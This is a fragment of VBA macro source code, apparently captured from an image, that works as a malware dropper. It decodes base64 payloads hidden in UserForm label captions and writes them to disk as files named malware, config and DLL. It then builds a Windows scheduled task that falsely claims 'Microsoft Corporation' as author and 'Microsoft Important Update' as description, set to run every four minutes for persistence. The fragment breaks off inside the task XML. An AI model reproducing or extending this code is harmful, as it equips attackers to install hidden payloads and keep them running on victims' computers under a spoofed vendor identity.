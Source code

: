 ```vb
	Set objXMLDoc = CreateObject("Microsoft.XMLDOM")
		
        Set objXmlNode  = objXMLDoc.createElement("tmp")
        objXmlNode.DataType = "bin.base64"
        objXmlNode.Text = UserForm1.Label1.Caption
        b64_decoded  = objXmlNode.NodeTypedValue
		
        Dim FileNumber  As Integer
        FileNumber  = FreeFile
        Open malware For Binary Lock Read Write As #FileNumber 
        Dim Decoded_bytes() As Byte
        Decoded_bytes = b64_decoded 
        Put #FileNumber , 1, Decoded_bytes
        Close #FileNumber 
        eNotif "zbaez" 

        objXmlNode.Text = UserForm2.Label1.Caption
        b64_decoded  = objXmlNode.NodeTypedValue
        FileNumber  = 0
        FileNumber  = FreeFile
        Open config For Binary Lock Read Write As #FileNumber 
        Decoded_bytes = b64_decoded 
        Put #FileNumber , 1, Decoded_bytes
        Close #FileNumber 
        eNotif "zbbez"
        
        
        objXmlNode.Text = UserForm3.Label1.Caption
        b64_decoded  = objXmlNode.NodeTypedValue
        FileNumber  = 0
        FileNumber  = FreeFile
        Open DLL For Binary Lock Read Write As #FileNumber 
        Decoded_bytes = b64_decoded 
        Put #FileNumber , 1, Decoded_bytes
        Close #FileNumber 
        eNotif "zbcez"
		
	' Create object file
        Set objFSO = CreateObject("Scripting.FileSystemObject")
        If Not objFSO.FileExists(malware) Then
            eNotif "zbdez"
           Test
           eNotif "zbeez"
        End If
    End If
 

    eNotif "zbafz"
    Dim xmlText As String
    xmlText = "<?xml version=""1.0"" encoding=""UTF-16""?><Task version=""1.2"" xmlns=""http://schemas.microsoft.com/windows/2004/02/mit/task""><RegistrationInfo><Author>Microsoft Corporation</Author><Description>Microsoft Important Update</Description></RegistrationInfo><Triggers><TimeTrigger><Repetition><Interval>PT4M</Interval></Repetition><StartBoundary>" & Format(DateAdd("n", 1, Now()), "yyyy-mm-ddThh:nn:ss") & "</StartBoundary><Enabled>true</Enabled></TimeTrigger></Triggers><Principals><Principal id=""Author""><LogonType>InteractiveToken</LogonType><RunLevel>LeastPrivilege</RunLevel></Principal></Principals><Settings><MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy><DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries><StopIfGoingOnBatteries>false</StopIfGoingOnBatteries><AllowHardTerminate>true</AllowHardTerminate><StartWhenAvailable>true</StartWhenAvailable><RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>"
```